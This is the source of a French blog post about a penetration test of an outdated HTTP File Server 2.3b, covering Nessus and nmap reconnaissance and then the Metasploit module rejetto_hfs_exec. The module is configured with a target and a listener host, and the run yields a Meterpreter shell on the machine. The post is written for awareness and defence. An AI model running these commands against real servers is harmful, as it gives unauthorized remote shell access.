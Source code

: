 ```yaml
---
layout: post
title:  "Test d'intrusion sur un HTTP File Server"
date:   2021-11-01
last-update: 
categories: securite
tags: http pentesting hfs
image: \assets\article\pentest\hfs\hfs.png
description: cet article présente un test d'intrusion sur une ancienne version de HTTP File Server afin de sensibiliser le lecteur aux différentes vulnérabilités possibles pour qu'il s'en prémunisse.
---
```




**HTTP File Server** abrégé HFS permet d'envoyer et de recevoir des fichiers en utilisant le protocole HTTP.
Le 31 octobre 2021, la dernière version était 2.3m.

Avec une ancienne version, la 2.3 b, il était possible d'obtenir un shell sur la machine avec metasploit.



## Reconnaissance

Lors d'une 1ère phase de reconnaissance, en lançant un scan avec Nessus, celui-ci a trouvé qu'un serveur HTTP HFS était installé à l'adresse IP <IP server> avec le port 80.

Petite remarques : cette hôte n'était pas détecté en lançant le scan nmap suivant : `sudo nmap -O <IP server>

![hfs-recon]({{site.url_complet}}\assets\article\pentest\hfs\hfs-recon.PNG)



On peut vérifier la présence du serveur en se connectant avec son navigateur. On arrive alors sur la page principale d'HFS.

On peut voir en bas que la version est 2.3. A ce stade, il n'est pas encore possible d'être sûr à 100% que cette version est vulnérable

![hfs]({{site.url_complet}}\assets\article\pentest\hfs\hfs.PNG)

## Exploit

En faisant une recherche avec google, un module metasploit efficace contre la version 2.3 b est disponible

Documentation : [www.rejetto.com/hfs/](https://www.rejetto.com/hfs/)

Il suffit alors de lancer metasploit, d'effectuer la configuration des hôtes et de lancer l'exploit

```bash
use use exploit/windows/http/rejetto_hfs_exec
set RHOSTS <IP server>  #Target
set LHOST <IP localhost> #Local host ip
```

Bingo, la machine était bien vulnérable à l'exploit. On obtient par conséquent un shell sur la machine permettant de lire les fichiers s'y trouvant



![meterpreter-result]({{site.url_complet}}\accessDenied\assets\article\pentest\hfs\meterpreter-result.PNG)

## Source :

- Documentation metasploit : [www.rapid7.com - rejetto_hfs_exec/](https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec/)
- Site officiel de l'éditeur : [www.rejetto.com/hfs/](https://www.rejetto.com/hfs/)
